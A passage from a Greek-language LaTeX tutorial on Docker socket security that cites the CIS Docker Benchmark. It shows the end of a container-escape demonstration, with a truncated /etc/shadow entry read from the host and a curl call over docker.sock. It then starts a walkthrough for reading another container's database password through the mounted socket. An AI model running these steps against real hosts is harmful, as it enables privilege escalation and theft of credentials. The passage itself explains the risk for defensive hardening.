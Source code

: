 \texttt{\textlatin{...}}

\texttt{\textlatin{admin:\$6\$VOSV5AVQ\$jHWxAVAUgl...:18142:0:99999:7:::}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(cont)\# curl -X DELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"}} \\

Αυτό καλύπτεται από την κατευθυντήρια γραμμή 5.31 του
\textlatin{CIS Docker Benchmark} (Βεβαιωθείτε ότι το \textlatin{Docker socket}
δεν είναι τοποθετημένη μέσα σε κανένα κοντέινερ).

\subsubsection{Ευαίσθητες πληροφορίες}

Όταν ένα κοντέινερ έχει πρόσβαση στο \texttt{\textlatin{/var/run/docker.sock}}
(δηλαδή όταν \texttt{\textlatin{/var/run/docker.sock}} προστίθεται ως
\textlatin{volume} μέσα στο κοντέινερ), μπορεί όχι απλά να ξεκινήσει
νέα κοντέινερ αλλά μπορεί επίσης να διαβάσει το \textlatin{configuration} των
υπαρχόντων κοντέινερ. Το \textlatin{configuration} ενδέχεται να περιέχει
ευαίσθητες πληροφορίες (π.χ. κωδικούς πρόσβασης σε μεταβλητές περιβάλλοντος).

Ας ξεκινήσουμε μια βάση δεδομένων \textlatin{Postgres}
\footnote{\textlatin{https://www.postgresql.org/}} μέσω \textlatin{Docker}.
Από την τεκμηρίωση της εικόνας Postgres Docker
\footnote{\textlatin{https://hub.docker.com/\_/postgres}}, γνωρίζουμε ότι
μπορούμε να παρέχουμε έναν κωδικό πρόσβασης χρησιμοποιώντας τη μεταβλητή
περιβάλλοντος \textlatin{POSTGRES\_PASSWORD}. Αν έχουμε πρόσβαση σε
ένα άλλο κοντέινερ που έχει πρόσβαση στο \textlatin{Docker API}, μπορούμε να
διαβάσουμε τον κωδικό πρόσβασης από τη μεταβλητή περιβάλλοντος. \\

\texttt{\textlatin{(host)\$ docker run --name database -e POSTGRES\_PASSWORD=secret -d postgres}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(host)\$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock:ro ubuntu:latest bash}}

\texttt{\textlatin{(cont)\# apt update}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(cont)\# apt install curl jq}}

